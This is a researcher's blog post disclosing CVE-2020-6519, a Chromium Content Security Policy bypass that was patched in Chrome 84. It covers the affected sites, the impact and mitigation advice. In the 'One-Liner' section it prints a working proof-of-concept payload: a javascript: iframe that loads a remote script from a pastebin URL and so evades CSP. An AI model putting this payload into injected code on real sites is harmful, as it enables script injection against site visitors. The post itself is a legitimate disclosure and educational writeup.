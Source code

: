 ```yaml
---
layout: page
title: CVE-2020-6519 - Chromium Vulnerability Disclosure
url: https://weizman.github.io/
date: 02/09/2020
---
```


> This is the story of how I found and helped **Google** [patch](https://chromereleases.googleblog.com/2020/07/stable-channel-update-for-desktop.html#:\~:text=Gal%20Weizman%20(@WeizmanGal)%20of%20PerimeterX) a [**vulnerability in Chrome browser**](https://nvd.nist.gov/vuln/detail/CVE-2020-6519) that could have allowed attackers to [**fully bypass CSP rules**](https://crbug.com/1064676) since Chrome 73 (March 2019), and how researching it taught me that today's CSP mechanism design is the reason **no one uses CSP correctly and therefore many of the biggest websites in the world are exposed to this vulnerability**.

### Bypassing CSP completely can be very bad..

I was extremely surprised when I discovered this vulnerability affecting [Chromium](https://www.chromium.org/) based browsers  - Chrome, Opera, Edge -  on Windows, Mac and Android that allowed attackers to fully bypass CSP rules on Chrome versions 73 (March 2019) through 83 (July 2020).

To better understand the magnitude of this vulnerability - the potentially impacted users are in the billions, with Chrome having over two billion users, and more than 65% of the browser market on one hand, and some of the most popular sites on the web being vulnerable to this CVE on the other hand.

Vulnerable sites included [Facebook](https://www.facebook.com/), [WellsFargo](https://www.wellsfargo.com/), [Gmail](https://gmail.com/) , [Zoom](https://zoom.us/), [Tiktok](https://www.tiktok.com/en/), [Instagram](https://instagram.com/), [WhatsApp](https://whatsapp.com/), [Investopedia](https://www.investopedia.com/), [ESPN](https://www.espn.com/), [Roblox](https://www.roblox.com/), [Indeed](https://www.indeed.com/), [Blogger](https://www.blogger.com/), [Quora](https://www.quora.com/) and more.

So what was the vulnerability exactly?

### Break CSP Down Completely With A One-Liner

You are more than welcome to check out the [POC files as disclosed to Google Chrome project](https://github.com/weizman/CVE-2020-6519/tree/master/POC) originally if you are interested in the exploit and in running it, but the following sum up should cover it mostly:

Normally, an attempt to run the following JS code will be blocked by the browser when the site’s CSP setting disallows the source or actions performed by the script:

```javascript
/* this is a script that pops an alert message */
top._CVE_URL = 'https://pastebin.com/raw/dw5cWGK6';

/* this call will fail due to CSP */
var s = document.createElement("script"); s.src = top._CVE_URL; document.body.appendChild(s);
```

However, running the same JS code via `javascript:` src of an iframe will bypass completely the configured CSP on that website:

```javascript
/* this is a script that pops an alert message */
top._CVE_URL = 'https://pastebin.com/raw/dw5cWGK6';

/* this call will succeed although CSP */
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```

**Simple yet very powerful!** Billions of browsers on any OS would have blindly allowed CSP privilege escalation for any unwanted code in a website:

![5](./content/img/5a.gif)

It is worth mentioning that some sites protected by CSP, like [Twitter](http://twitter.com/), [Github](http://github.com/), [LinkedIn](https://www.linkedin.com/), [Google Play Store](https://play.google.com), [Yahoo's Login Page](https://login.yahoo.com), [PayPal](https://paypal.com) and [Yandex](https://yandex.ru) were not vulnerable to [CVE-2020-6519](https://github.com/weizman/CVE-2020-6519/), as these implemented CSP using [nonce](https://content-security-policy.com/nonce/) or [hash](https://content-security-policy.com/hash/) and by that added a layer of security that is implemented on the server side as well as the client side.

### What is the potential impact?

[Content Security Policy (CSP)](https://content-security-policy.com/) is basically a set of rules set by the website that the browser's role here is to respect and enforce in the name of the website.

With these rules the website can ask the browser to block/allow specific request calls, specific types of javascript code execution and more, thus ensuring stronger security for site visitors and protecting them from potential injected malicious scripts or [cross-site-scripting (XSS)](https://owasp.org/www-community/attacks/xss/).

Having a vulnerability in Chrome’s CSP enforcement mechanism doesn’t directly mean that sites are breached, as the attackers also need to manage to get the malicious script called from the site (which is why the vulnerability was classified as medium severity).

However, having a vulnerability in a security mechanism that is trusted by websites to enforce stricter policies on 3rd party scripts has vast implications, as some of the largest sites rely on CSP to enforce their policy, and may give them the comfort of approving 3rd party scripts of vendors and partners thinking they are safe with a strict policy enforced.

Besides the sites mentioned above (representing more than 2.5 billion users), it is safe to estimate that thousands of websites across industries, including e-commerce, banking, telecommunications, government, and utilities were left unprotected from a scenario where hackers managed to inject malicious code into them.

### Why should we be worried about a vulnerability that is exploitable only when an attacker gained code execution on a website? In that case, bypassing CSP wouldn't make much of a difference..

I disagree.

It is extremely risky when a vulnerability is found in the security mechanism that prevents such breaches, as the impacted sites actively relied on CSP to provide the protection tier.

About 6 months ago I found a [persistent XSS in WhatsApp Web/Desktop applications and demonstrated the severity of this vulnerability](https://weizman.github.io/page-whatsapp-vuln/).

Part of the reason the severity was so high is because their CSP was misconfigured in such a way that allowed me to inject scripts that could communicate with any domain I wanted.

This is why. Finding ways to execute code on a website you don't control is indeed extremely difficult.
But once someone has, you'd wish your website had another layer of security that might stop them from causing real damage.

You can read all about this research right [here](https://weizman.github.io/page-whatsapp-vuln/).

### Test It Yourself

I was easily able to test all of those websites by creating a [simple script](https://github.com/weizman/CVE-2020-6519/blob/master/CVE-2020-6519-TEST-IT-YOURSELF.js) that when executed via the devtools console will let you know immediately whether the current browser/website is vulnerable to [CVE-2020-6519](https://nvd.nist.gov/vuln/detail/CVE-2020-6519) due to misconfigured CSP/Old Chrome or not. It does that by trying to load an external js script from [https://pastebin.com/raw/XpHsfXJQ](https://pastebin.com/raw/XpHsfXJQ) both normally and by trying to load the exploit as well:

> _Browser and Website are vulnerable_

![2](./content/img/2a.jpg)

> _Browser is vulnerable but Website is not_

![1](./content/img/1a.jpg)

> _Browser is not vulnerable_

![4](./content/img/4a.jpg)

### Advice For Website Owners And Users

**Ensure your CSP policies are well defined**

Consider adding additional layers of security such as [nonce](https://content-security-policy.com/nonce/)s or [hash](https://content-security-policy.com/hash/)s.
This will require some server-side implementation.

**CSP alone is not enough for most websites so, consider adding additional layers of security**

Consider JavaScript-based detection and monitoring of [Shadow Code for real-time mitigation of web page code injection](https://www.perimeterx.com/tech-blog/2020/shadow-code-what-is-it-and-why-should-you-care/).

**Make sure your Chrome browser version is 84 or higher.**

### About The Patch

This vulnerability was [patched](https://crbug.com/1064676) by the Chromium project on Chrome 84, was tagged as medium ([CVSS 6.5](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2020-6519&vector=AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N&version=3.1&source=NIST)) risk and was granted $3,000.

